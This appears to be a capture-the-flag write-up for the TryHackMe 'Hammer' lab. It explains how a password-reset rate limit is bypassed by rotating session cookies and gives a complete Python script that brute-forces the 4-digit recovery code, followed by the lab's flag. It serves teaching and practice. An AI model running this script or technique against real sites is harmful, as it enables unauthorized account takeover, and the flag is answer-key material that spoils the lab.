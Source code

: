 # Brute forcing 4-digit code

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests

IP = input('[!] Enter the target IP address: ')

N = 8
MAX_CODE = 9999
PORT = 1337
URL = f'http://{IP}:{PORT}'
EMAIL = 'tester@hammer.thm'

headers = {
    'Host': f'{IP}{PORT}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
}


def retrieve_new_session():
    with requests.Session() as s:
        # session is updated automatically
        s.get(f'{URL}/index.php', headers=headers)

    return s


def enter_email(s):
    data = {
        'email': EMAIL
    }

    s.post(f'{URL}/reset_password.php',
           headers=headers, data=data)


def brute_force():

    try:

        # retrieve initial session
        s = retrieve_new_session()

        # enter email
        enter_email(s)

        iterations = MAX_CODE+1

        for i in range(iterations):

            if i % N == 0 and i != 0:
                print('[INFO] Retrieving new PHPSESSID')

                # request for a new PHPSESSID
                s = retrieve_new_session()

                # enter email
                enter_email(s)

            code = f'{i:04d}'

            data = {
                'recovery_code': code,
                's': 200
            }

            print(f'[INFO] Trying code={code}')

            res = s.post(f'{URL}/reset_password.php',
                         headers=headers, data=data)

            res_text = res.text
            res_status_code = res.status_code
            res_content_length = len(res.text)
            req_cookies = s.cookies.get_dict()

            # print(res_text)

            print(f'[INFO] status={res_status_code} content_length={
                res_content_length} cookies={req_cookies}')

            # wrong code
            if 'Invalid or expired recovery code!' in res_text:
                print('[INFO] Wrong code!')

            # valid code found
            else:
                print('[INFO] Success!')
                print(f'code={code}')
                exit()

    except KeyboardInterrupt:
        exit()


brute_force()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`

